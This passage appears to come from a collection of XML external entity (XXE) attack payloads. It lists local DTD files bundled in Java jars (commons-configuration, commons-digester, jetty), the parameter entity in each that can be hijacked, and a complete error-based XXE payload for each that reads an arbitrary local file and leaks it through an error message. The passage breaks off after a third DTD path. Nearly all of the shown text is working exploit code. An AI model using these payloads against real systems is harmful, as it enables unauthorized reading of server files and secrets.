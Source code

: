 
**DTD File:** `[HOME_DIR]/.m2/repository/commons-configuration/commons-configuration/1.10/commons-configuration-1.10.jar!/PropertyList-1.0.dtd`

**Injectable entity:** `%plistObject`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/commons-configuration/commons-configuration/1.10/commons-configuration-1.10.jar!/PropertyList-1.0.dtd">

    <!ENTITY % plistObject '(aa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/commons-digester/commons-digester/1.8.1/commons-digester-1.8.1.jar!/org/apache/commons/digester/xmlrules/digester-rules.dtd`

**Injectable entity:** `%rule-elements`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/commons-digester/commons-digester/1.8.1/commons-digester-1.8.1.jar!/org/apache/commons/digester/xmlrules/digester-rules.dtd">

    <!ENTITY % rule-elements 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/jetty/org.mortbay.jetty/5.1.4/org.mortbay.jetty-5.1.4.jar!/org/mortbay/xml/configure_1_0.dtd`
